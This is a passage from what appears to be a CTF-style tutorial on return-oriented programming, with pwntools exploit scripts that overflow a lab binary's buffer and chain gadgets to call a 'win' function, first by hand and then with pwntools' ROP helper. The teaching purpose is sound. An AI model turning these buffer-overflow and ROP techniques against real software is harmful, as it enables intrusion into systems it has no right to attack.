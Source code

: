 ```py
    # set RDI=0xdeadbeef
    pop_rdi_ret, 0xdeadbeef, 

    # set RSI=0xcafebabe R15=0
    pop_rsi_pop_r15_ret, 0xcafebabe, 0,

    # call win
    elf.sym.win,
]

# Offset upto RIP
payload = b'A'*offset
payload += b''.join([p64(x) for x in rop_chain])

p.sendline(payload)

p.interactive()
p.close()
```
Now for the final sauce, you can use pwntools' ROP utility to automate all dirty stuff (finding gadgets, arranging them correctly, taking care of architecture etc.)
```py
#!/usr/bin/env python3
from pwn import *

def start():
	global p
	if args.REMOTE:
		p = remote('localhost', 1337)
	else:
		p = elf.process()

context.binary = elf = ELF('./ret2shellcode')
libc = elf.libc
start()

### Exploit Goes here ###
offset = 0x68

# Initializing ROP with the elf to find gadgets
rop = ROP(elf)
rop.win(0xdeadbeef, 0xcafebabe)

# Offset upto RIP
payload = b'A'*offset
payload += rop.chain()

p.sendline(payload)

p.interactive()
p.close()
```

If any of you have any questions, suggestions or doubts, please reach out to me on discord (stdnoerr#7880) or twitter (@stdnoerr)
